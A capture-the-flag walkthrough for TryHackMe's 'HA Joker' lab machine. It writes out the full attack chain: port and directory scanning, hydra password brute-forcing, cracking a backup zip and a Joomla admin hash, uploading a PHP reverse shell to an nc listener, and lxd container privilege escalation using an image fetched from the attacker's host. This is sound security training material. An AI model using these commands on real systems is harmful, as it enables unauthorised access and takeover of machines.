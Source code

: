 # HA Joker CTF

**Room Link:** [https://tryhackme.com/room/jokerctf](https://tryhackme.com/room/jokerctf)





## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (624).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>



## TCP/8080 - HTTP

**Kali**

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f $VICTIM http-get /
```

<figure><img src="../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>



wasn't finding it but should have found a backup.zip

**Kali**

```
nikto -id joker:hannah -h $VICTIM:8080
```

<figure><img src="../../.gitbook/assets/image (629).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
unzip backup.zip
Password: hannah
```

<figure><img src="../../.gitbook/assets/image (630).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cd db
cat joomladb.sql | grep admin
```

**Hash**

```
$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
```

**Kali**

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>













**Browser**

```
Username: admin
Password: abcd1234
```

<figure><img src="../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (632).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```



**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI:81/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



















